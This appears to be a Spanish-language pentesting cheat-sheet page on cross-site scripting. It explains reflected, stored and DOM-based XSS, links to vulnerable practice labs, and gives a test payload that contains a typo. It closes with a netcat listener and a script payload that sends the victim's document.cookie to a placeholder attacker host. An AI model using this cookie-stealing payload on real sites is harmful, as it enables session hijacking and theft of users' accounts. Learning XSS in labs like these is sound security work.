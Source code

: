 ## Cross-Site Scripting (XSS)

Una vulnerabilidad XSS (Cross-Site Scripting) es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en un sitio web. 
un ataque XSS implica la inserción de código malicioso en una página web vulnerable, que luego se ejecuta en el navegador del usuario que accede a dicha página.  
Existen varios tipos de vulnerabilidades XSS, incluyendo las siguientes:  
* Reflejado (Reflected): Este tipo de XSS se produce cuando los datos proporcionados por el usuario se reflejan en la respuesta HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario.
* Almacenado (Stored): Este tipo de XSS se produce cuando un atacante es capaz de almacenar código malicioso en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.
* DOM-Based: Este tipo de XSS se produce cuando el código malicioso se ejecuta en el navegador del usuario a través del DOM (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

**Proyecto Github con docker vulnerable a XSS** <a href="https://github.com/globocom/secDevLabs">secDevLabs</a>  
**Maquina MyExpense** <a href="https://www.vulnhub.com/entry/myexpense-1,405/">MyExpense machine (Vulnhub)</a>

#### Comprobar si es vulnerable
En un campo de texto, por ejemplo para enviar un post, comentario, etc. escribimos:  
```
<sccript>alert('Prueba XSS')</script>

En ocastiones no es necesario las etiquetas <script>, o incluso es necesario no ponerlas para que funcione
```

### Cookie stealing
Se puede poner netcat a la escucha:  
```
nc -nlvp 80
```

E inyectar el siguiente código:  
```
<script>img = new Image(); img.src = "http://IP_ATACANTE/a.php?"+document.cookie;</script>
```

